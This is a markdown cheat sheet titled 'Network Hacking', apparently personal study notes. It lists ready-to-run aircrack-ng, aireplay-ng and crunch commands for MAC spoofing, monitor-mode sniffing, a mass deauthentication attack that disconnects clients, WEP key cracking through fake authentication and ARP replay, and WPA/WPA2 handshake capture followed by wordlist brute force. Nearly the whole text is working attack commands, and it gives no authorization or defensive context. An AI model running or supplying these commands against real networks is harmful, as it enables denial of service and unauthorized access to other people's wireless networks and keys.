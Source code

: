 # Network Hacking

* To list all network interfaces available, we can use `ifconfig`. The MAC address can be viewed under _ether_ in _wlan0_.

* To change the MAC address:

```shell
ifconfig wlan0 down #disables wlan0

ifconfig wlan0 hw ether 00:11:22:33:44:55 #sets hardware address of wlan0

ifconfig wlan0 up #enables wlan0
```

* To list only wireless interfaces, we can use `iwconfig`.

* To change _wlan0_ to monitor mode:

```shell
ifconfig wlan0 down

airmon-ng check kill #optional; kills any process that disturb interface in monitor mode

iwconfig wlan0 mode monitor #changes wlan0 mode to monitor

ifconfig wlan0 up
```

---

* To sniff packets, we can use _airodump-ng_:

```shell
airodump-ng wlan0 #here, wlan0 must be in monitor mode in order to fetch details
```

* To sniff packets on particular wifi bands:

```shell
airodump-ng --band a wlan0 #captures all networks with 5 GHz band

airodump-ng --band abg wlan0 #captures 2.5 GHz and 5 GHz networks at the same time
```

* To do targeted packet sniffing:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write testfile wlan0 #captures a particular network with given bssid and channel number, then it saves data to a file called testfile
#this will also show the devices connected to network
```

* To run a deauthentication attack, which can disconnect any client from any network:

```shell
aireplay-ng --deauth 100000000 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#here, aireplay-ng is the program name, followed by the deauth attack specifications including the MAC address of target router (-a) and MAC address of target client (-c)
```

---

* WEP(Wired Equivalent Privacy) can be cracked using two tools: _airodump-ng_ and _aircrack-ng_.

* To crack into a busy WEP network:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write wep_test wlan0
#capturing data packets from WEP network and writing it into a file

aircrack-ng wep_test-01.cap
#analyze captured data, cracks the key and prints it
```

* To crack into a non-busy WEP network, we need to do a fake authentication attack:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 11 --write arpreplay wlan0

aireplay-ng --fakeauth 0 -a 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#to associate with network; uses aireplay-ng tool to run a fake authentication attack on given MAC address access point (-a) and by wireless adapter having monitor mode(-h).

aireplay-ng --arpreplay -b 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#ARP request replay; forces access point to generate new IVs

aircrack-ng arpreplay-01.cap
```

---

* To crack WPA/WPA2:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 3 --write wpa-handshake wlan0
#capture handshake (when client joins network)
#deauth attack can be done in parallel to capture handshake
aireplay-ng --deauth 4 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#After this handshake is captured and stored in file

crunch 6 8 ria258 -o trial-wordlist.txt
#wordlist created using crunch with specifics

aircrack-ng wpa-handshake-01.cap -w trial-wordlist.txt
```

---
